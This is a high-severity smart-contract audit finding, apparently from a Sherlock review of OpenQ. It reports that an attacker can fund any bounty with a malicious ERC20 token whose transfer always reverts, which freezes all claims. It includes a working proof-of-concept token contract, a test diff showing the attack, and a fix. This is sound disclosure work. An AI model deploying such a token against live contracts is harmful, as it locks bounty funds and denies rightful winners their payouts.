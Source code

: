 libratus

high

# Attacker can fund a bounty with an invalid ERC20 token and freeze all claims

## Summary
Attacker can fund a bounty with a custom token that will revert when bounty is claimed. This will prevent any bounty tokens to be transferred to the winner.

## Vulnerability Detail
In `ClaimManager` code goes over all bounty tokens and sends them one by one to the closer
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/ClaimManager/Implementations/ClaimManagerV1.sol#L130-L134

If transfer reverts for one of the tokens, the whole claim process will fail. Funding bounties with tokens is permissionless. There is no guard on `DepositManagerV1.fundBountyToken`. This allows an attacker to create a fake ERC20 token that will always revert during claim and send it to any bounty. This will freeze claims for the bounty.

## Impact
Claim can be broken for any bounty

## Code Snippet
Fake token to use in the test case:
```solidity
import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

contract MockAttackerToken is ERC20 {
    address public admin;

    constructor() ERC20('Mock Attacker', 'mATTCK') {
        _mint(msg.sender, 10000 * 10**18);
        admin = msg.sender;
    }

    function transfer(address to, uint256 amount) public virtual override returns (bool) {
        if (msg.sender != admin) revert("Block token transfer");
        return super.transfer(to, amount);
    }
}
```

Test case:
```diff
diff --git a/test/ClaimManager.test.js b/test/ClaimManager.test.js
index 41be3ce..847b383 100755
--- a/test/ClaimManager.test.js
+++ b/test/ClaimManager.test.js
@@ -36,6 +36,7 @@ describe('ClaimManager.sol', () => {
        let mockNft;
        let openQTokenWhitelist;
        let mockKyc;
+       let mockAttackerToken;
 
        let claimManagerImplementation;
 
@@ -46,6 +47,7 @@ describe('ClaimManager.sol', () => {
        let claimant;
        let claimantSecondPlace;
        let claimantThirdPlace;
+       let attacker;
 
        // CONSTANTS
        let zeroTier
@@ -85,6 +87,7 @@ describe('ClaimManager.sol', () => {
                const DepositManager = await ethers.getContractFactory('DepositManagerV1');
                const ClaimManager = await ethers.getContractFactory('ClaimManagerV1');
                const MockKyc = await ethers.getContractFactory('MockKyc');
+               const MockAttackerToken = await ethers.getContractFactory('MockAttackerToken');
 
                AtomicBountyV1 = await ethers.getContractFactory('AtomicBountyV1');
                OngoingBountyV1 = await ethers.getContractFactory('OngoingBountyV1');
@@ -107,7 +110,7 @@ describe('ClaimManager.sol', () => {
                const BountyFactory = await ethers.getContractFactory('BountyFactory');
                const BountyBeacon = await ethers.getContractFactory('BountyBeacon');
 
-               [owner, claimant, oracle, claimantSecondPlace, claimantThirdPlace, notOwner] = await ethers.getSigners();
+               [owner, claimant, oracle, claimantSecondPlace, claimantThirdPlace, notOwner, attacker] = await ethers.getSigners();
 
                openQImplementation = await OpenQImplementation.deploy();
                await openQImplementation.deployed();
@@ -133,6 +136,9 @@ describe('ClaimManager.sol', () => {
                blacklistedMockDai = await MockDai.deploy();
                await blacklistedMockDai.deployed();
 
+               mockAttackerToken = await MockAttackerToken.connect(attacker).deploy();
+               await mockAttackerToken.deployed();
+
                mockNft = await MockNft.deploy();
                await mockNft.deployed();
 
@@ -198,6 +204,7 @@ describe('ClaimManager.sol', () => {
                abiCoder = new ethers.utils.AbiCoder;
 
                atomicBountyInitOperation = atomicBountyInitOperation_fundingGoal(mockLink.address)
+               atomicBountyPermissionedInitOperation = atomicBountyInitOperation_permissioned(mockLink.address)
                ongoingBountyInitOperation = ongoingBountyInitOperationBuilder(mockLink.address)
                
                tieredPercentageBountyInitOperation_permissionless = tieredBountyInitOperationBuilder_permissionless(mockLink.address)
@@ -443,6 +450,94 @@ describe('ClaimManager.sol', () => {
                                        // ASSERT
                                        expect(await mockNft.ownerOf(1)).to.equal(owner.address);
                                });
+
+                               it('should transfer rewards if bounty was funded by attacker\'s token', async () => {
+                                       // ARRANGE
+                                       const volume = 100;
+                                       await openQProxy.mintBounty(Constants.bountyId, Constants.organization, atomicBountyInitOperation);
+
+                                       const bountyAddress = await openQProxy.bountyIdToAddress(Constants.bountyId);
+
+                                       await mockDai.approve(bountyAddress, 10000000);
+                                       await depositManager.fundBountyToken(bountyAddress, mockDai.address, volume, 1, Constants.funderUuid);
+
+                                       // Attacker funds invalid token
+                                       await mockAttackerToken.connect(attacker).approve(bountyAddress, 1000);
+                                       await depositManager.connect(attacker).fundBountyToken(bountyAddress, mockAttackerToken.address, 1000, 1, Constants.funderUuid);
+
+                                       // // // ACT
+
+                                       await claimManager.connect(oracle).claimBounty(bountyAddress, claimant.address, abiEncodedSingleCloserData);
+
+                                       // // ASSERT
+                                       const newBountyFakeTokenBalance = (await mockDai.balanceOf(bountyAddress)).toString();
+                                       expect(newBountyFakeTokenBalance).to.equal('0');
+
+                                       const newClaimerFakeTokenBalance = (await mockDai.balanceOf(claimant.address)).toString();
+                                       expect(newClaimerFakeTokenBalance).to.equal('100');
+                               });

```


## Tool used

Manual Review

## Recommendation

Pass a list of tokens to be claimed to `ClaimManagerV1.claim()`